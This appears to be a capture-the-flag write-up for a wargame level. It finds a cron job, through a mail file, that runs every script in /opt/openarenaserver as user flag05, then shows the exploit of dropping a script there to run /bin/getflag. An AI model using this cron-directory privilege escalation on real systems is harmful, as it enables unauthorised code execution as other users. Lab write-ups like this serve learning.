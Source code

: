 # 05

First observation
- an empty dir and nothing happens
- a _hint_ says "mail" and "cronjob"

Inspect `/var/mail`

```b
> crontab -l
no crontab for level05

> ls /var/mail
level05

> ls -l /var/mail/
-rw-r--r--+ 1 root mail 58 Nov 17 20:25 level05
^ ie. file

> cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

👆 There's a cronjob
- it runs every 2nd minute
- it runs a script as flag05

Inspect `/usr/sbin/openarenaserver`

```b
> ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 /usr/sbin/openarenaserver
              ^^^^^^ ^^^^^^ resource excl. to user flag05

> cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

What this script does:
- it runs each file of `/opt/openarenaserver/*` 
- for each file, limit its exec runtime to 5 seconds
- for each file, we print out what it is, if it is a _script_
- rmv each file after use

Exploit
- put a script inside `/opt/openarenaserver/` 

```r
$ echo '/bin/getflag > /tmp/temp' \
> /opt/openarenaserver/solve.sh && \
chmod +x /opt/openarenaserver/solve.sh

# remember
# `/usr/sbin/openarenaserver` runs `bash -x` in a subshell
# it'll stdout nothing whether we `tee` `tee /dev/tty` or `sync` 
```

- ~~use `tee` : _read stdin and write to stdout and files_~~
- let it be run in 2min 
